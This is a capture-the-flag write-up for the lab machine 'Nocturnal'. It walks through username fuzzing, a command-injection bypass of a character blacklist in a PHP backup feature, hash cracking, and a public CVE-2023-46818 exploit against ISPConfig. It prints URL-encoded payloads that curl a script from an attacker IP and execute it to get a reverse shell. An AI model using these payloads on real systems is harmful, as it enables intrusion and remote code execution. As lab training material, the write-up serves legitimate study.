



# Description

Nocturnal is an easy Linux machine that demonstrates command injection bypass and privilege escalation using CVE-2023-46818.

# Recon

## nmap

Result of `nmap` scan :

```bash
Scanned at 2025-05-31 21:30:25 WIB for 12s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDpf3JJv7Vr55+A/O4p/l+TRCtst7lttqsZHEA42U5Edkqx/Kb8c+F0A4wMCVOMqwyR/PaMdmzAomYGvNYhi3NelwIEqdKKnL+5svrsStqb9XjyShPD9SQK5Su7xBt+/TfJyZQ3+jyYN1IdppOzDYRGMjhq5ybD4eI437q6CSL20=
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLcnMmaOpYYv5IoOYfwkaYqI9hP6MhgXCT9Cld1XLFLBhT+9SsJEpV6Ecv+d3A1mEOoFL4sbJlvrt2v5VoHcf4M=
|   256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIASsDOOb+I4J4vIK5Kz0oHmXjwRJMHNJjXKXKsW0z/dy
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nocturnal.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Only ports 22 and 80 are open. The `80` port is redirecting to `http://nocturnal.htb`. Let's add it to the `/etc/hosts` file.

```bash
10.10.11.64 nocturnal.htb
```

# 80 - TCP

## Enumeration

Visiting the website reveals a web app. Register an account and log in to explore the features. After exploring it for a while, I found that the I need to be authenticated to access the files. I can list uploaded files if I supply a valid username and any filename that has valid extension. It can be accessed from other user accounts too.

```bash
http://nocturnal.htb/view.php?username=jergal&file=any.pdf
```

I will try to fuzz the username.

```bash
> ffuf -H "Cookie: PHPSESSID=<Cookie>" -u 'http://nocturnal.htb/view.php?username=FUZZ&file=any.pdf' -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -ic -c -fs 2985
...
admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 72ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 58ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 74ms]
...
```

Visiting the page for `amanda` reveals `privacy.odt` file.



## Admin Panel

The document contains amanda's password. We can use it to log in to the web app as `amanda`. There will be `Go to Admin Panel` button at the top of the page. It will take us to the admin panel. Inside the admin panel, we can view the source code of the web app. The `view` parameter doesn't vulnerable to directory traversal so we can only use it to view the source code that is available on the options. There's a backup functionality inside the admin panel, we can supply a password to protect the backup. Here's the source code :

```php
<?php
session_start();

if (!isset($_SESSION['user_id']) || ($_SESSION['username'] !== 'admin' && $_SESSION['username'] !== 'amanda')) {
    header('Location: login.php');
    exit();
}

function sanitizeFilePath($filePath) {
    return basename($filePath); // Only gets the base name of the file
}

// List only PHP files in a directory
function listPhpFiles($dir) {
    $files = array_diff(scandir($dir), ['.', '..']);
    echo "<ul class='file-list'>";
    foreach ($files as $file) {
        $sanitizedFile = sanitizeFilePath($file);
        if (is_dir($dir . '/' . $sanitizedFile)) {
            // Recursively call to list files inside directories
            echo "<li class='folder'>📁 <strong>" . htmlspecialchars($sanitizedFile) . "</strong>";
            echo "<ul>";
            listPhpFiles($dir . '/' . $sanitizedFile);
            echo "</ul></li>";
        } else if (pathinfo($sanitizedFile, PATHINFO_EXTENSION) === 'php') {
            // Show only PHP files
            echo "<li class='file'>📄 <a href='admin.php?view=" . urlencode($sanitizedFile) . "'>" . htmlspecialchars($sanitizedFile) . "</a></li>";
        }
    }
    echo "</ul>";
}

// View the content of the PHP file if the 'view' option is passed
if (isset($_GET['view'])) {
    $file = sanitizeFilePath($_GET['view']);
    $filePath = __DIR__ . '/' . $file;
    if (file_exists($filePath) && pathinfo($filePath, PATHINFO_EXTENSION) === 'php') {
        $content = htmlspecialchars(file_get_contents($filePath));
    } else {
        $content = "File not found or invalid path.";
    }
}

function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];

    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) {
            return false; // Malicious input detected
        }
    }

    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}


?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Admin Panel</title>
    <link href="https://fonts.googleapis.com/css2?family=Poppins:wght@300;400;600&display=swap" rel="stylesheet">
    <style>
        body {
            font-family: 'Poppins', sans-serif;
            background-color: #1a1a1a;
            margin: 0;
            padding: 0;
            color: #ff8c00;
            display: flex;
            justify-content: center;
            align-items: center;
            min-height: 100vh;
        }

        .container {
            background-color: #2c2c2c;
            width: 90%;
            max-width: 1000px;
            padding: 30px;
            box-shadow: 0 8px 20px rgba(0, 0, 0, 0.5);
            border-radius: 12px;
        }

        h1, h2 {
            color: #ff8c00;
            font-weight: 600;
        }

        form {
            display: flex;
            flex-direction: column;
            gap: 15px;
            margin-bottom: 30px;
        }

        input[type="password"] {
            padding: 12px;
            font-size: 16px;
            border: 1px solid #555;
            border-radius: 8px;
            width: 100%;
            background-color: #333;
            color: #ff8c00;
        }

        button {
            padding: 12px;
            font-size: 16px;
            background-color: #2d72bc;
            color: white;
            border: none;
            border-radius: 8px;
            cursor: pointer;
            transition: background-color 0.3s ease;
        }

        button:hover {
            background-color: #245a9e;
        }

        .file-list {
            list-style: none;
            padding: 0;
        }

        .file-list li {
            background-color: #444;
            padding: 15px;
            margin-bottom: 10px;
            border-radius: 8px;
            display: flex;
            align-items: center;
        }

        .file-list li.folder {
            background-color: #3b3b3b;
        }

        .file-list li.file {
            background-color: #4d4d4d;
        }

        .file-list li a {
            color: #ff8c00;
            text-decoration: none;
            margin-left: 10px;
        }

        .file-list li a:hover {
            text-decoration: underline;
        }

        pre {
            background-color: #2d2d2d;
            color: #eee;
            padding: 20px;
            border-radius: 8px;
            overflow-x: auto;
            font-family: 'Courier New', Courier, monospace;
        }

        .message {
            padding: 15px;
            border-radius: 8px;
            margin-top: 15px;
            background-color: #e7f5e6;
            color: #2d7b40;
            font-weight: 500;
        }

        .error {
            background-color: #f8d7da;
            color: #842029;
        }

        .backup-output {
            margin-top: 20px;
            padding: 15px;
            border: 1px solid #555;
            border-radius: 8px;
            background-color: #333;
            color: #ff8c00;
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>Admin Panel</h1>

        <h2>File Structure (PHP Files Only)</h2>
        <?php listPhpFiles(__DIR__); ?>

        <h2>View File Content</h2>
        <?php if (isset($content)) { ?>
            <pre><?php echo $content; ?></pre>
        <?php } ?>

        <h2>Create Backup</h2>
        <form method="POST">
            <label for="password">Enter Password to Protect Backup:</label>
            <input type="password" name="password" required placeholder="Enter backup password">
            <button type="submit" name="backup">Create Backup</button>
        </form>

        <div class="backup-output">

<?php
if (isset($_POST['backup']) && !empty($_POST['password'])) {
    $password = cleanEntry($_POST['password']);
    $backupFile = "backups/backup_" . date('Y-m-d') . ".zip";

    if ($password === false) {
        echo "<div class='error-message'>Error: Try another password.</div>";
    } else {
        $logFile = '/tmp/backup_' . uniqid() . '.log';
       
        $command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
        
        $descriptor_spec = [
            0 => ["pipe", "r"], // stdin
            1 => ["file", $logFile, "w"], // stdout
            2 => ["file", $logFile, "w"], // stderr
        ];

        $process = proc_open($command, $descriptor_spec, $pipes);
        if (is_resource($process)) {
            proc_close($process);
        }

        sleep(2);

        $logContents = file_get_contents($logFile);
        if (strpos($logContents, 'zip error') === false) {
            echo "<div class='backup-success'>";
            echo "<p>Backup created successfully.</p>";
            echo "<a href='" . htmlspecialchars($backupFile) . "' class='download-button' download>Download Backup</a>";
            echo "<h3>Output:</h3><pre>" . htmlspecialchars($logContents) . "</pre>";
            echo "</div>";
        } else {
            echo "<div class='error-message'>Error creating the backup.</div>";
        }

        unlink($logFile);
    }
}
?>

 </div>
        
        <?php if (isset($backupMessage)) { ?>
            <div class="message"><?php echo $backupMessage; ?></div>
        <?php } ?>
    </div>
</body>
</html>
```

## Command Injection

By the looks of it, it seems like we have a command injection on the `password` but we need to bypass the `cleanEntry` function first.

```php
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];

    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) {
            return false; // Malicious input detected
        }
    }

    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}
```

Many characters are blacklisted in the `cleanEntry` function, but we can bypass them by using the newline `\n` character because in linux each command is separated by a newline `\n` character. To execute more complex command we can use the tab `\t` character to separate them because spaces are not allowed. I will use two payload to deliver my reverse shell script and then execute the script. The payload must be URL encoded `%0a` for new line and `%09` for tab.

```bash
password=%0acurl%0910.10.14.79/x%09-o%09/tmp/x%0a&backup=
```

```bash
password=%0abash%09/tmp/x%0a&backup=
```

# Shell as www-data

## Enumeration

We can find the database used by the web app at `/var/www/nocturnal_database/nocturnal_database.db` path. Because it's a SQLite database, we can just dump it using `strings` command.



Because `tobias` is the only user that is available on the linux machine, I will just crack `tobias` hash.

```bash
hashcat -m 0 '55c82b1ccd55ab219b3b109b07d5061d' /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

Then, we can use the password to login via SSH as `tobias`.

# Shell as tobias

## User flag

```bash
tobias@nocturnal:~$ cat user.txt
deadbeefeff625911c218820a7e8fake
```

## Enumeration

There's an internal service at port `8080`, let's forward this port using SSH.

```bash
ssh -L 9090:127.0.0.1:8080 tobias@nocturnal.htb
```

Visiting `http://127.0.0.1:9090` shows `ISPCONFIG` web app.



The default credential for this app is `admin:admin` according to [this forum](https://forum.howtoforge.com/threads/ispconfig-user-and-password.619/). It surely didn't work but if we use tobias password, it works to login as `admin`.

## CVE-2023-46818

We can get the current `ISPCONFIG` version by visiting the `Help` section. It shows `3.2.10p1` version. This version is vulnerable to [CVE-2023-46818](https://nvd.nist.gov/vuln/detail/CVE-2023-46818) and it's has a public PoC [CVE-2023-46818 exploit](https://github.com/bipbopbup/CVE-2023-46818-python-exploit).

```bash
python exploit.py http://localhost:9090/ admin slowmotionapocalypse
```

# Shell as root

## Root flag

```bash
ispconfig-shell# cat /root/root.txt
deadbeef56f2f26b795863d03be3fake
```
